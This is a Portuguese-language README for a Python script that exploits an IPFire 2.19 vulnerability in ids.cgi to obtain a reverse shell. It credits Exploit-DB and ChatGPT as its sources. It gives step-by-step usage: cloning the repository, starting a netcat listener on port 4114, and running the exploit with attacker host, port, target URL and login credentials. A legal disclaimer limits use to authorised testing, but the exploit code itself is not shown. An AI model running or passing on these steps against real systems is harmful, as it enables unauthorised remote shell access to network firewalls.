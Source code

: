 # IPFire Reverse Shell Exploit

![Small Bypass](smallBypass.jpg)



Este é um script em Python para explorar uma vulnerabilidade em instalações do IPFire que permite a execução de um shell reverso. Ele é destinado apenas para fins educacionais e de teste. Use com responsabilidade e apenas em ambientes onde você tem permissão.
Este Script foi criado com auxilio do chatgpt e baseado no payload disponivel em:
https://www.exploit-db.com/exploits/42149


Obrigado Kryoonzz, pelas dicas! 

## Requisitos

- Python 3.x
- Bibliotecas Python: `requests`

## Uso

Para usar o script, siga as instruções abaixo:

1. Clone o repositório:

   ```bash
   git clone https://github.com/BrotherOfJhonny/IPFire_2.19.git

2. Acesse a pasta:
 ``
cd IPFire_2.19
 ``

4. Em outro terminal execute o netcat com os dados da porta que irá receber a conexão reversa.

 ```bash
nc -lvnp 4114
 ```

5. Execute seguindo as intruções:

  ```bash
python ipfireExpl3.py --revhost SEU_HOST --revport SUA_PORTA --url URL_VULNERAVEL --u SEU_USUARIO --p SUA_SENHA
 ```

Substitua SEU_HOST, SUA_PORTA, URL_VULNERAVEL,  ```exemplo: https://10.2.2.1:444/cgi-bin/ids.cgi ```, SEU_USUARIO e SUA_SENHA pelos valores apropriados.

6. Observação

```Observação
Após executar o script pode demorar até um minuto para obtenção do shell reverso
```

![Small Bypass](Small_sucesso.jpg)



## Aviso Legal
Este script é fornecido apenas para fins educacionais e de teste. Não é destinado a uso malicioso. Use-o apenas em sistemas onde você tem permissão para testar a vulnerabilidade. O autor não é responsável por qualquer uso indevido deste script.

## Contribuições
Contribuições são bem-vindas! Se você deseja melhorar ou estender este projeto, sinta-se à vontade para enviar um pull request.
